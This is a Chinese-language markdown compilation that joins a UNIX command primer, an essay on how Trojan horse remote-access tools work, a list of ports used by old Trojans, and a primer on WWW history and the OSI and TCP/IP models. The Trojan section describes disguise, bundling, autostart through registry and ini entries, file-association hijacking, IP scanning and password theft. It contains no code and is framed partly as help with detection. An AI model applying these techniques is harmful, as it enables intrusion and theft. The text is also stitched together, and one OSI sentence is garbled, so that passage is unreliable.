- mail 读取及传送电子邮件
- 以下指令可利用 mail 传送文字档

```
mail user < filename
```

- write 送讯息给其他在系统中的使用者，也可视为功能较差的 talk 程式，记得按 Ctrl + D 结束
- rlogin rsh telnet 远端登录 login

### 进阶指令

- vacation 自动回应来信

## 四、系统资讯

### 指令简介

- quota -v 察看自己可用磁盘空间大小（单位：KB）及档案个数
- date 现在的日期、时间
- who 查询目前和你使用同一机器的有哪些人及 login 时间地点
- w 查询目前上机者详细状况
- whoami 察看自己帐号名称
- groups 帐号名 查看某人的 group
- yppasswd 更改密码
- ypchsh 更改自己的 login shell
- ypchfn 更改自己的全名（full name，不是帐号名）
- cal 印出月历或年历
- tty 显示目前所用终端机名称
- history 查看自己下过的指令

### 进阶指令

- nslookup 向 Name Server 查询 hostname 及 IP

## 五、处理程序（Process）的控制

### 指令简介

## 进阶指令
- at 在指定时间执行命令
- batch 依序执行多个命令
- crontab 要求系统定期执行特定命令
- nice 调整 process 的优先权
- nohup 使 process 在 logout 后继续执行

## 六、其他命令
### 指令简介
- cc C Compiler
- compress 将档案压缩成 *.Z 格式
- uncompress 将 *.Z 格式的压缩档解压
- alias 替命令取别名
  例：alias dir='ls -al'
  以后打 dir 就等同于下 ls -al 命令
- set 查看或设定 shell 变数
- 这里介绍几个重要的变数：
  home：你的 home directory。
  path：和 DOS 的 path 变数功能一样，系统会顺著 path 中的目录去找可执行档。
  term：终端机形态，常用 vt100、vt102、ansi。
- set <变数名>=<设定值> 就可以设定变数的值，$<变数名> 代表此变数的值。例如：set term=vt100; set path=$home/bin:$path。另外须注意 path 的第一个目录最好不要设为空，这是系统安全的考量。
- setenv 查看或设定环境变数
- echo 回应讯息到标准输出
- sort 资料排序
- su 权限转换为指定使用者
- banner 放大特定字串
- calendar 重要事项提醒
- spell 拼字检查
- sleep 暂停一段时间不使用 CPU（通常用在 Shell Script）
- test 测试档案型态或检查字串、数值大小（通常用在 Shell Script）
- wait 等待 process 执行结束（通常用在 Shell Script）

## 七、终端机常用控制键
- Ctrl + C 中断程式的执行。
- Ctrl + Z 暂停程式的执行，稍后可下 fg 或 bg 指令继续，若未下 fg 或 bg 指令继续执行，该 process 仍会留在系统内。
- Ctrl + S 或 Pause 键屏幕暂停输出
- Ctrl + Q 屏幕恢复输出
- Ctrl + D (EOT, End of Transmission)
  有时候按了键盘，屏幕却没任何反应，看起来好像当机，可能就是不小心按了 Ctrl + S 键，此时按 Ctrl + Q 就可恢复正常。
  若你输入中文时，屏幕却出现乱码，请先于 UNIX 提示符号下打 `stty pass8`，系统就不会过滤字元的 bit7 (the most significant bit)。
  若你进编辑器或者其他的全屏幕程式，出现屏幕文字上卷的问题时，请先于 UNIX 提示符号下打 `stty rows 24` 或 `resize` 就可恢复正常。

## 八、管道 (pipe) 及输出入重导 (redirection)
UNIX 把输出入设备亦视为档案，这些设备可能是键盘，屏幕，打印机，也可以是磁盘档，以下是 UNIX 的标准输出入设备：
- 标准输入 (stdin)
  平时为键盘，可用 `<` 转向。
  例：`mail b82000 < myfile` 可将 myfile 档案寄给 b82000。
- 标准输出 (stdout)
  平时为萤幕，可用 `>` 转向，用 `>>` 可将结果附加 (append) 在档案尾端。
  例：`finger b81045 > myfile` 可将查询结果写在 myfile 档案上。
- 标准错误输出 (stderr)
  平时为屏幕，如 stdout 被转向，仍可在屏幕看到错误讯息。stderr 可用 `>&` 转向，用 `>>&` 将错误讯息附加在档案尾端。

管道：管道的符号是 `|`，用来连接两个命令。`|` 左边指令的输出作为 `|` 右边指令的输入。例：`ls -l .. | more` 可将上一层目录内容以一页一页方式输出；`who | grep b.503 | sort | more` 可将目前上线的电机系学生名单经过排序后分页输出。

## 九、Shell 与 Shell Script 简介
DOS 的 COMMAND.COM 就是一种 shell，负责解析你所下的指令并执行它。同样的，UNIX 上也有这样的东东，它是在你成功 login 以后由系统自动启动的。UNIX 上有不少种 shell，sh、csh、ksh、tcsh、bash 等皆是，一般都是用 csh，login shell 可用 ypchsh 命令改变，但你必须先知道你要换的新壳子在那个目录下。tcsh 有类似 DOSKEY 的功能，值得推荐。

DOS 中有所谓的批处理，用以方便处理一些例行工作。UNIX 也有批次处理，它就叫做 Shell Script，而且比 DOS 的批次档强很多，写法几乎是一个高阶语言。Shell Script 是个文字档，但其地位和其他的命令或可执行档是完全相同的，只要用 chmod 指令将 Shell Script 存取权设为可执行即可。欲知 Shell Script 写法及其相关细节，请参阅 manual page 或 UNIX 相关书籍。

$home 目录下的 .login 档就是一个典型的 Shell Script，类似 DOS 的 autoexec.bat。

## 十、X Window 视窗系统简介
若你在工作站主机 login，可打 startx 或 openwin 指令进入 X Window 系统，进入 XWindow 后按滑鼠左键或右键不放，可看到系统选单，选择你要执行的程式，选 Exit 就可离开 XWindow 系统。进入 X Window 后可启动 cxterm 就有中文视窗。

X Window 系统大而繁杂，但操作上不难，欲深入了解其功能，可参阅 X Window 的标准本 <The X Window System Volume 3 X Window System User's Guide for X11R5>。网路上也有免费的 X Window 入门指南中文版，可进各大 gopher 站查阅或抓取。

## 特洛伊木马原理揭密
### 一、必备基础知识
在介绍木马的原理之前有一些木马构成的基础知识我们要事先加以说明，因为下面有很多地方会提到这些内容。

一个完整的木马系统由硬件部分、软件部分和具体连接部分组成。
- 1. 硬件部分
  建立木马连接所必须的硬件实体。
  - 控制端：对服务端进行远程控制的一方。
  - 服务端：被控制端远程控制的一方。
  - INTERNET：控制端对服务端进行远程控制，数据传输的网络载体。
- 2. 软件部分
  实现远程控制所必须的软件程序。
  - 控制端程序：控制端用以远程控制服务端的程序。
  - 木马程序：潜入服务端内部，获取其操作权限的程序。
  - 木马配置程序：设置木马程序的端口号、触发条件、木马名称等，使其在服务端藏得更隐蔽的程序。
- 3. 具体连接部分
  通过 INTERNET 在服务端和控制端之间建立一条木马通道所必须的元素。
  - 控制端 IP、服务端 IP：即控制端、服务端的网络地址，也是木马进行数据传输的目的地。
  - 控制端端口、木马端口：即控制端、服务端的数据入口，通过这个入口，数据可直达控制端程序或木马程序。

### 二、特洛伊木马的攻击步骤
用木马这种黑客工具进行网络入侵，从过程上看大致可分为六步，下面我们就按这六步来详细阐述木马的攻击原理。
- 1. 配置木马
  一般来说一个设计成熟的木马都有木马配置程序，从具体的配置内容看，主要是为了实现以下两方面功能：
  - （1）木马伪装：木马配置程序为了在服务端尽可能好地隐藏木马，会采用多种伪装手段，如修改图标、捆绑文件、定制端口、自我销毁等等。
  - （2）信息反馈：木马配置程序将就信息反馈的方式或地址进行设置，如设置信息反馈的邮件地址、IRC 号、ICQ 号等。
- 2. 传播木马
  - （1）传播方式
    木马的传播方式主要有两种：一种是通过 E-MAIL，控制端将木马程序以附件的形式夹在邮件中发送出去，收信人只要打开附件系统就会感染木马；另一种是软件下载，一些非正规的网站以提供软件下载为名义，将木马捆绑在软件安装程序上，下载后，只要一运行这些程序，木马就会自动安装。
  - （2）伪装方式
    鉴于木马的危害性，很多人对木马知识还是有一定了解的，这对木马的传播起了一定的抑制作用，这是木马设计者所不愿见到的，因此他们开发了多种功能来伪装木马，以达到降低用户警觉、欺骗用户的目的。一般来说有以下几种：
    - 修改图标
      也许你会在 E-MAIL 的附件中看到一个很平常的文本图标，但是我不得不告诉你，这也有可能是个木马程序。现在已经有木马可以将木马服务端程序的图标改成 HTML、TXT、ZIP 等各种文件的图标，这有相当大的迷惑性，但是目前提供这种功能的木马还不多见，并且这种伪装也不是无懈可击的，所以不必整天提心吊胆、疑神疑鬼的。
    - 捆绑文件
      这种伪装手段是将木马捆绑到一个安装程序上，当安装程序运行时，木马在用户毫无察觉的情况下，偷偷地进入了系统。至于被捆绑的文件一般是可执行文件（即 EXE、COM 一类的文件）。
    - 出错显示
      有一定木马知识的人都知道，如果打开一个文件没有任何反应，这很可能就是个木马程序。木马的设计者也意识到了这个缺陷，所以已经有木马提供了一个叫做出错显示的功能。当服务端用户打开木马程序时，会弹出一个错误提示框（这当然是假的），错误内容可自由定义，大多会定制成一些诸如“文件已破坏，无法打开的！”之类的信息。当服务端用户信以为真时，木马却悄悄侵入了系统。
    - 定制端口
      很多老式的木马端口都是固定的，这给判断是否感染了木马带来了方便，只要查一下特定的端口就知道感染了什么木马。所以现在很多新式的木马都加入了定制端口的功能，控制端用户可以在 1024～65535 之间任选一个端口作为木马端口（一般不选 1024 以下的端口），这样就给判断所感染木马类型带来了麻烦。
    - 自我销毁
      这项功能是为了弥补木马的一个缺陷。我们知道当服务端用户打开含有木马的文件后，木马会将自己拷贝到 WINDOWS 的系统目录 `C:\WINDOWS` 或 `C:\WINDOWS\SYSTEM` 下。一般来说，原木马文件和系统文件夹中的木马文件的大小是一样的（捆绑文件的木马除外）。那么中了木马的朋友只要在近来收到的信件和下载的软件中找到原木马文件，然后根据原木马的大小去系统文件夹找相同大小的文件，判断一下哪个是木马就行了。而木马的自我销毁功能是指安装完木马后，原木马文件将自动销毁，这样服务端用户就很难找到木马的来源，在没有查杀木马的工具帮助下，就很难删除木马了。
    - 木马更名
      安装到系统文件夹中的木马的文件名一般是固定的，那么只要根据一些查杀木马的文章，按图索骥在系统文件夹查找特定的文件，就可以断定中了什么木马。所以现在有很多木马都允许控制端用户自由定制安装后的木马文件名，这样很难判断所感染的木马类型了。

### 3. 运行木马
服务端用户运行木马或捆绑木马的程序后，木马就会自动进行安装。首先将自身拷贝到 WINDOWS 的系统文件夹中 `C:\WINDOWS` 或 `C:\WINDOWS\SYSTEM` 目录下，然后在注册表、启动组、非启动组中设置好木马的触发条件，这样木马的安装就完成了。安装后就可以启动木马了。

### 1. 由触发条件激活木马
触发条件是指启动木马的条件，大致出现在下面八个地方：
- 注册表：打开 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\` 下的五个以 Run 和 RunServices 为主键的项，在其中寻找可能是启动木马的键值。
- WIN.INI：`C:\WINDOWS` 目录下有一个配置文件 `win.ini`，用文本方式打开，在 `[windows]` 字段中有启动命令 `load=` 和 `run=`，在一般情况下是空白的，如果有启动程序，可能是木马。
- SYSTEM.INI：`C:\WINDOWS` 目录下有个配置文件 `system.ini`，用文本方式打开，在 `386Enh`、`mic`、`drivers32` 中有命令行，在其中寻找木马的启动命令。
- Autoexec.bat 和 Config.sys：在 C 盘根目录下的这两个文件也可以启动木马。但这种加载方式一般都需要控制端用户与服务端建立连接后，将已添加木马启动命令的同名文件上传到服务端覆盖这两个文件才行。
- *.INI：即应用程序的启动配置文件。控制端利用这些文件能启动程序的特点，将制作好的带有木马启动命令的同名文件上传到服务端覆盖原同名文件，这样就可以达到启动木马的目的了。
- 注册表（文件关联）：打开 `HKEY_CLASSES_ROOT\文件类型\shell\open\command` 主键，查看其键值。举个例子，国产木马“冰河”就是修改 `HKEY_CLASSES_ROOT\txtfile\shell\open\command` 下的键值，将“`C:\WINDOWS\NOTEPAD.EXE %1`”改为“`C:\WINDOWS\SYSTEM\SYSEXPLR.EXE %1`”。这时你双击一个 TXT 文件后，原本应用 NOTEPAD 打开文件的，现在却变成启动木马程序了。还要说明的是，不光是 TXT 文件，通过修改 HTML、EXE、ZIP 等文件的启动命令的键值都可以启动木马，不同之处只在于“文件类型”这个主键的差别（TXT 是 txtfile，ZIP 是 zipfile 等），大家可以试着去找一下。
- 捆绑文件：实现这种触发条件首先要控制端和服务端通过木马建立连接，然后控制端用户用工具软件将木马文件和某一应用程序捆绑在一起，然后上传到服务端覆盖原文件。这样即使木马被删除了，只要运行捆绑了木马的应用程序，木马又会被安装上去了。
- 启动菜单：在“开始——程序——启动”选项下也可能有木马的触发条件。

### 2. 木马运行过程
木马被激活后，进入内存，并开启事先定义的木马端口，准备与控制端建立连接。这时服务端用户可以在 MS-DOS 方式下，键入 `NETSTAT -AN` 查看端口状态，一般个人电脑在脱机状态下是不会有端口开放的，如果有端口开放，你就要注意是否感染木马了。

在上网过程中要下载软件，发送信件，网上聊天等必然打开一些端口，下面是一些常用的端口：
- 1. 1～1024 之间的端口：这些端口叫保留端口，是专给一些对外通讯的程序用的，如 FTP 使用 21，SMTP 使用 25，POP3 使用 110 等。只有很少木马会用保留端口作为木马端口的。
- 2. 1025 以上的连续端口：在上网浏览网站时，浏览器会打开多个连续的端口下载文字、图片到本地硬盘上，这些端口都是 1025 以上的连续端口。
- 3. 4000 端口：这是 OICQ 的通讯端口。
- 4. 6667 端口：这是 IRC 的通讯端口。除上述的端口基本可以排除在外，如发现还有其它端口打开，尤其是数值比较大的端口，那就要怀疑是否感染了木马。当然如果木马有定制端口的功能，那任何端口都有可能是木马端口。

### 4. 信息泄露
一般来说，设计成熟的木马都有一个信息反馈机制。所谓信息反馈机制是指木马成功安装后会收集一些服务端的软硬件信息，并通过 E-MAIL、IRC 或 ICQ 的方式告知控制端用户。

从中我们可以知道服务端的一些软硬件信息，包括使用的操作系统，系统目录，硬盘分区情况，系统口令等，在这些信息中，最重要的是服务端 IP，因为只有得到这个参数，控制端才能与服务端建立连接，具体的连接方法我们会在下一节中讲解。

### 5. 建立连接
这一节我们讲解一下木马连接是怎样建立的。一个木马连接的建立首先必须满足两个条件：一是服务端已安装了木马程序；二是控制端、服务端都要在线。在此基础上控制端可以通过木马端口与服务端建立连接。

假设 A 机为控制端，B 机为服务端，对于 A 机来说要与 B 机建立连接必须知道 B 机的木马端口和 IP 地址，由于木马端口是 A 机事先设定的，为已知项，所以最重要的是如何获得 B 机的 IP 地址。获得 B 机的 IP 地址的方法主要有两种：信息反馈和 IP 扫描。对于前一种已在上一节中已经介绍过了，不再赘述，我们重点来介绍 IP 扫描，因为 B 机装有木马程序，所以它的木马端口 7626 是处于开放状态的，所以现在 A 机只要扫描 IP 地址段中 7626 端口开放的主机就行了。例如图中 B 机的 IP 地址是 202.102.47.56，当 A 机扫描到这个 IP 时发现它的 7626 端口是开放的，那么这个 IP 就会被添加到列表中，这时 A 机就可以通过木马的控制端程序向 B 机发出连接信号，B 机中的木马程序收到信号后立即作出响应，当 A 机收到响应的信号后，开启一个随机端口 1031 与 B 机的木马端口 7626 建立连接，到这时一个木马连接才算真正建立。值得一提的是要扫描整个 IP 地址段显然费时费力，一般来说控制端都是先通过信息反馈获得服务端的 IP 地址，由于拨号上网的 IP 是动态的，即用户每次上网的 IP 都是不同的，但是这个 IP 是在一定范围内变动的，如果 B 机的 IP 是 202.102.47.56，那么 B 机上网 IP 的变动范围是在 202.102.000.000～202.102.255.255，所以每次控制端只要搜索这个 IP 地址段就可以找到 B 机了。

### 6. 远程控制
木马连接建立后，控制端口和木马端口之间将会出现一条通道，控制端上的控制端程序可藉这条通道与服务端上的木马程序取得联系，并通过木马程序对服务端进行远程控制。下面我们就介绍一下控制端具体能享有哪些控制权限，这远比你想象的要大。
- 1. 窃取密码：一切以明文的形式、* 形式或缓存在 CACHE 中的密码都能被木马侦测到。此外很多木马还提供有击键记录功能，它将会记录服务端每次敲击键盘的动作，所以一旦有木马入侵，密码将很容易被窃取。
- 2. 文件操作：控制端可藉由远程控制对服务端上的文件进行删除、新建、修改、上传、下载、运行、更改属性等一系列操作，基本涵盖了 WINDOWS 平台上所有的文件操作功能。
- 3. 修改注册表：控制端可任意修改服务端注册表，包括删除、新建或修改主键、子键、键值。有了这项功能，控制端就可以禁止服务端软驱、光驱的使用，锁住服务端的注册表，将服务端上木马的触发条件设置得更隐蔽等一系列高级操作。
- 4. 系统操作：这项内容包括重启或关闭服务端操作系统，断开服务端网络连接，控制服务端的鼠标、键盘，监视服务端桌面操作，查看服务端进程等。控制端甚至可以随时给服务端发送信息，想象一下，当服务端的桌面上突然跳出一段话，不吓人一跳才怪。

### 三、特洛伊木马常用的侦听端口
- port 21：Blade Runner、Doly Trojan、Fore、Invisible FTP、WebEx、WinCrash
- port 23：Tiny Telnet Server
- port 25：Antigen、Email Password Sender、Haebu Coceda、Shtrilitz Stealth、Terminator、WinPC、WinSpy

- port 31 - Hackers Paradise
- port 80 - Executor
- port 456 - Hackers Paradise
- port 555 - Ini-Killer, Phase Zero, Stealth Spy
- port 666 - Satanz Backdoor
- port 1001 - Silencer, WebEx
- port 1011 - Doly Trojan
- port 1170 - Psyber Stream Server, Voice
- port 1234 - Ultors Trojan
- port 1245 - VooDoo Doll
- port 1492 - FTP99CMP
- port 1600 - Shivka-Burka
- port 1807 - SpySender
- port 1981 - Shockrave
- port 1999 - BackDoor
- port 2001 - Trojan Cow
- port 2023 - Ripper
- port 2115 - Bugs
- port 2140 - Deep Throat, The Invasor
- port 2801 - Phineas Phucker
- port 3024 - WinCrash
- port 3129 - Masters Paradise
- port 3150 - Deep Throat, The Invasor
- port 3700 - Portal of Doom
- port 4092 - WinCrash
- port 4590 - ICQTrojan
- port 5000 - Sockets de Troie
- port 5001 - Sockets de Troie
- port 5321 - Firehotcker
- port 5400 - Blade Runner
- port 5401 - Blade Runner
- port 5402 - Blade Runner
- port 5569 - Robo-Hack
- port 5742 - WinCrash
- port 6670 - DeepThroat
- port 6771 - DeepThroat
- port 6969 - GateCrasher, Priority
- port 7000 - Remote Grab
- port 7300 - NetMonitor
- port 7301 - NetMonitor
- port 7306 - NetMonitor
- port 7307 - NetMonitor
- port 7308 - NetMonitor
- port 7789 - ICKiller
- port 9872 - Portal of Doom
- port 9873 - Portal of Doom
- port 9874 - Portal of Doom
- port 9875 - Portal of Doom
- port 9989 - iNi-Killer
- port 10067 - Portal of Doom
- port 10167 - Portal of Doom
- port 11000 - Senna Spy
- port 11223 - Progenic trojan
- port 12223 - Hack'99 KeyLogger
- port 12345 - GabanBus, NetBus
- port 12346 - GabanBus, NetBus
- port 12361 - Whack-a-mole
- port 12362 - Whack-a-mole
- port 16969 - Priority
- port 20001 - Millennium
- port 20034 - NetBus 2 Pro
- port 21544 - GirlFriend
- port 22222 - Prosiak
- port 23456 - Evil FTP, Ugly FTP
- port 26274 - Delta
- port 31337 - Back Orifice
- port 31338 - Back Orifice, DeepBO
- port 31339 - NetSpy DK
- port 31666 - BOWhack
- port 33333 - Prosiak
- port 34324 - BigGluck, TN
- port 40412 - The Spy
- port 40421 - Masters Paradise
- port 40422 - Masters Paradise
- port 40423 - Masters Paradise
- port 40426 - Masters Paradise
- port 47262 - Delta
- port 50505 - Sockets de Troie
- port 50766 - Fore
- port 53001 - Remote Windows Shutdown
- port 61466 - Telecommando
- port 65000 - Devil

## 防黑必备基础

### 一、基本概念解析

#### 1. 万维网（WWW）

WWW 即 World Wide Web，中文一般称为万维网（或全球网），平常说的 Web。互联网其实与此是同一含义。创建 WWW 是为了解决 Internet 上的信息传递问题。在 WWW 创建以前，几乎所有的信息发布都是通过 E-mail、FTP、Archie 等实现的。E-mail 的使用让不同的团体和个人之间的信息交换变得很广泛；FTP（文件传输协议）用来从一台计算机到另一台计算机进行文件传输；Archie 用来查找 Internet 上的各种文件。由于 Internet 上的信息散乱地分布在各处，因此除非知道所需信息的位置，否则无法对信息进行搜索。

由于这样或那样的限制，必须开发出一种全新的独立于各种平台的方法，以便于在 Internet 上传递信息。正是在这种需求下，瑞士日内瓦的欧洲粒子物理实验室 CERN 开发出超文本标记语言（HTML）。HTML 是从一种称为标准化标记语言（SGML）的文档格式语言演化而来的。HTML 设计为易于学习、使用和在 Internet 上传递信息的一种文档表示语言，HTML 比 SGML 更简单易学。为了在 Internet 上传递 HTML 文档，要使用基于 TCP/IP 的协议。这种协议后来成为超文本传输协议 HTTP。WWW 是随 HTTP 和 HTML 一起出现的，Web 通过使用强有力的媒介传递信息克服了许多早期信息传递的限制。Web 服务器利用 HTTP 传递 HTML 文件，Web 浏览器使用 HTTP 检索 HTML 文件，从 Web 服务器一旦检索到信息，Web 浏览器就会以静态和交互（如文本、图像）的形式显示各种对象。

随着文本、图像、影像、声音和交互式应用程序的统一，WWW 已经成为信息交换的一种很有效的方式。正是由于 WWW 的出现，我们才可以浏览各种信息来源，并且通过各种超级链接从一种信息来源转到另一种信息来源。超级链接是指向 Web 页面的统一资源定位器（URL）的对象。当用户单击一个超级链接时，该用户就会到超级链接所指向的 Web 页面。URL 可以看作是 Web 页面的地址。每个 Web 页面都有一个或多个 URL 与之相关。在特殊应用程序和浏览器的推动下，Web 很快成为 Internet 发布文本和多媒体信息的一种有效手段。WWW 很大程度上是在 NCSA（National Center for Supercomputing Applications）于 1993 年发布的 Mosaic（Web 浏览器）后得到普及的。

WWW 之所以如此流行是因为它克服了 Web 浏览器出现之前许多应用程序的缺点，这些应用程序在 Internet 上用来发布信息。在过去，Internet 上几乎所有信息都是字符文本格式，这样信息不能按照多种格式表示，导致了浏览和搜索方面的困难。而 WWW 上的信息可以有多种格式，易于浏览和理解。例如，在讨论复杂问题时，可以使用图表、影像剪辑甚至互动式应用程序，而不仅仅是字符文本，这样会便于解释论题，使人一目了然。WWW 集成了所有的视觉辅助效果来表示信息。

由于 WWW 是基于客户机/服务器模式，因此它是与平台无关的，通常服务器对于浏览 Web 站点的用户是透明的，这是 WWW 之所以成功的另一个原因。CERN 所定义的 Internet 标准和协议不是私有标准，因此任何人都有权使用与 Internet 标准和规范一致的自己的 Web 服务器和 Web 浏览器。这种自由和开放性使得一些机构（如 NCSA、Netscape 和 Microsoft）能够扩充现有的 Internet 标准（如 HTML），满足 WWW 用户更广泛的需要。正是这些先驱机构，才使得 WWW 一直成为 Internet 的首选信息发布工具，为 Internet 的使用者提供更多的选择和控制权。

与其他信息发布工具相比，WWW 由于所需的费用很低，并且覆盖面广，因而具有很大的吸引力。另外使用各种搜索机制、Web 站点分类目录、数据库注册一个 Web 站点，可以使客户在需要时得到所需的信息。

## 2. TCP/IP 协议

TCP/IP 协议是 Internet 和 Intranet 的基石，用于从一台机器向另一台机器传输数据和信息。在本章，将涉及到 TCP/IP 协议的历史，TCP/IP 协议中的 IP 协议、TCP 协议和 UDP 协议，以及建立在这些协议之上的各种 TCP/IP 服务。

### TCP/IP 的历史

TCP/IP 的历史可以追溯至 70 年代中期，当时 ARPA（Advanced Research Project Agency，高级研究计划局）为了实现异种网之间的互联与互通，大力资助网间网技术的研究开发，于 1977 年到 1979 年间推出与目前形式一样的 TCP/IP 体系结构和协议规范。

1980 年前后，DARPA（国防部高级研究计划局）开始将 ARPANET 上的所有机器转向 TCP/IP 协议，并以 ARPANET 为主干建立 Internet。

为了推广 TCP/IP 协议，高级研究计划局以低价出售 TCP/IP 的实现，并通过资助美国伯克利加州大学将 TCP/IP 协议融入 BSD UNIX 版本。1983 年，伯克利加州大学推出内含 TCP/IP 的第一个 BSD UNIX 版本，该协议软件可谓生逢其时，因为当时许多大学正缺乏一种有效的联网手段以建造它们各自的局域网。

BSD UNIX 成功的原因是多方面的。首先，除了提供标准的 TCP/IP 应用程序外，还包括一组网络服务工具，这些工具和 UNIX 的使用方式相接近，从而深受 UNIX 用户的欢迎。第二，BSD UNIX 提供一种访问通讯协议的系统调用：Socket。Socket 是一种进程间通信的机制，使程序员可以方便地访问 TCP/IP 协议，或多或少地推动了 TCP/IP 的研究开发工作。

在 1985 年，美国国家科学基金会（NSF，National Science Foundation）开始涉足 TCP/IP 的研究和开发，并逐渐成为极为重要的角色。国家科学基金会资助建立了 NSFNET 网并采用 TCP/IP 为其传输协议。目前，NSFNET 已经取代 ARPANET 成为 Internet 的新的主干。到今天，TCP/IP 技术及 Internet 已得到极为迅猛的发展，出现了大量从事 Internet 技术开发和服务的公司，如近几年崛起的 Netscape 公司和 Internet 服务提供商 Hotmail。如今 Internet 被人们认为是一块新的淘金地，人们从中也享受到不少 Internet 带来的便利，如 WWW 服务、E-mail 服务和新出的 Internet 电话。

### TCP/IP 基本概念

Internet 是全球最大的、开放的、由众多网络互联而成的计算机网络，在这个庞大的网络中又可以分成许许多多的子网和子网的子网，不同子网或网络可能使用不同的介质，如 FDDI（光纤分布式数据接口）、ATM（异步传输模式）、以太网和无线网等。TCP/IP 就是用来屏蔽各种网络和机器的不同，使它们可以相互通信，并向上层提供一个公共的界面。下面，本书将介绍一些 TCP/IP 的基本概念。

### （1）OSI 层次模型和 TCP/IP 层次模型

当谈论网络时，会经常谈到协议栈模型，这里只介绍 OSI 模型和 TCP/IP 模型。OSI 模型是 1978 年由国际标准化组织定义的一个协议标准，旨在发展开放式系统并作为一个基石来比较不同的通信系统。与 OSI 模型不同，TCP/IP 层次模型是在实践中发展起来的，层次分类和各层功能与 OSI 模型都有所不同，但可以把它和标准 OSI 模型作比较，以帮助理解 TCP/IP 层次模型。

#### 1）OSI 层次模型

OSI 模型有 7 层，如图 1 所示。当接受数据时，数据自下而上传输，当发送数据时，数据自下而上传输。



### 图一 OSI 层次模型

- 1. 物理层：建立在物理介质上，实现机械和电气过程的接口，主要包括电缆、物理端口和附属设备。
- 2. 数据链路层：建立在物理传输能力的基础上，以帧为单位传输数据，一个典型数据链路层数据帧如图 2 所示。地址段含有发送节点和接收节点的地址，控制段用来表示数据帧的类型，数据段包含实际要传输的数据，差错控制段用来检测传输中帧出现的错误。数据链路层可使用的协议有 SLIP、PPP、X25 和帧中继等等。



### 图2 数据链路层数据帧

- 3. 网络层：网络层的主要功能是提供路由，即选择到达目标主机的最佳路径，并沿该路径传送数据包。除此之外，网络层还要能够消除网络拥挤，即具有流量控制和拥挤控制的能力。我们通常所说的路由器就工作在这个层次上。
- 4. 传输层：传输层用于提高网络层服务质量，提供可靠的端到端的数据传输，比如说两个位于不同机器上的进程之间的通信。TCP 层就相当于 OSI 模型中的传输层。
- 5. 会话层：会话层利用传输层来提供增加的会话服务，会话可能是一个用户通过网络登录到一个主机，或一个正在建立的用于传输文件的会话。
- 6. 表示层：表示层用于数据管理的表示方式，如用于文本文件的 ASCII 和 EBCDIC，用于表示数字的 1S 或 2S 补码表示形式。如果通信双方用不同的数据表示方法，他们就不能互相理解。表示层就是用于屏蔽这种不同之处。
- 7. 应用层：应用层包含用户应用程序执行通信任务所需要的协议和功能，如电子邮件和文件传输等。

#### 2）TCP/IP 层次模型

TCP/IP 的层次模型只有 4 层，但它的每一层可能包含 OSI 模型的多层，如它的网络访问层包括物理层和数据链路层，其层次结构如图 3 所示。



### 图 3 TCP/IP 层次模型

- 1. 网络访问层（以太网、FDDI、ATM 和 Token Ring（令牌环））：相当于 OSI 模型中的物理层加上数据链路层，是 TCP/IP 结构中的最底层，负责从上层接收 IP 数据包并把 IP 数据包进一步处理成数据帧发送出去，或从网络上接收数据帧，解开数据帧，抽出 IP 数据包，并把数据包交给 IP 层。
- 2. 互联网层（IP）：相当于 OSI 模型中的网络层。有关 IP 层的数据结构和路由的实现。IP 层的服务是无连接的、不可靠的，这样 IP 层的实现就变得简单。服务可靠性的实现交给了上层协议，即 TCP 层。
